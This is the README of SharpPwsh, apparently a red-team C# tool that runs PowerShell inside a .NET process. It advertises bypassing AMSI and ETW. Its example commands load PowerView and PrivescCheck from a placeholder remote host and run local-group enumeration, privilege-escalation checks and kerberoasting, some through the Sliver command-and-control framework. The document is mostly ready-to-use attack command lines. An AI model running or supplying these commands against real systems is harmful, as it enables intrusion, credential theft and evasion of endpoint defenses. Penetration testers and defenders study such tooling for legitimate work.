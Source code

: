 # SharpPwsh
C# .Net Framework program that uses `RunspaceFactory` for Powershell command execution.

## Features
- Execute Powershell commands
- Load & execute remote script
- AMSI Bypass
- Multiple command & script support
- Encoded command support

## Usage

```
SharpPwsh 1.0.0.0
Copyright c  2022

  -c, --cmd            Required. Powershell command to run

  -u, --uri            URI to fetch remote script

  -b, --bypass-amsi    Bypass AMSI

  -e, --encoded        Encodeded command (base64)

  --help               Display this help screen.

  --version            Display version information.
```

## Examples

```
# execute powershell command
PS > .\SharpPwsh.exe -c whoami

# execute base64 encoded powershell command
PS > .\SharpPwsh.exe -e -c d2hvYW1pCg==

# load remote script and execute
PS > .\SharpPwsh.exe -u http://x.x.x.x/PowerView.ps1 -c get-netlocalgroup

# load remote script and execute encoded command
PS > .\SharpPwsh.exe -u http://x.x.x.x/PowerView.ps1 -e -c R2V0LU5ldExvY2FsR3JvdXAK

# execute multiple powershell commands
PS > .\SharpPwsh.exe -c hostname,whoami

# execute multiple powershell commands using multiple scripts
PS > .\SharpPwsh.exe -c get-netlocalgroup,invoke-privesccheck -u http://x.x.x.x/PowerView.ps1,http://x.x.x.x/PrivescCheck.ps1 -b

# sliver inline & bypass AMSI + ETW
sliver > execute-assembly -M -E -i /tools/SharpPwsh.exe -c get-netlocalgroup -u http://x.x.x.x/psh/PowerSploit/Recon/PowerView.ps1

# sliver BOF & bypass AMSI
sliver > inline-execute-assembly /tools/SharpPwsh.exe '-b -c invoke-kerberoast -u http://x.x.x.x/PowerView.ps1'
```

## Planned
- Load & execute embedded script
- Load & execute script from disk
- Load & execute script from clipboard
- Compression & encryption support for scripts


## Build
Built using .NET Framework v4.5.1 in Visual Studio 2019.

Be sure to add `c:\windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll` as a reference.

The project uses [`dnMerge`](https://github.com/CCob/dnMerge) so it has to be compiled in `Release` mode.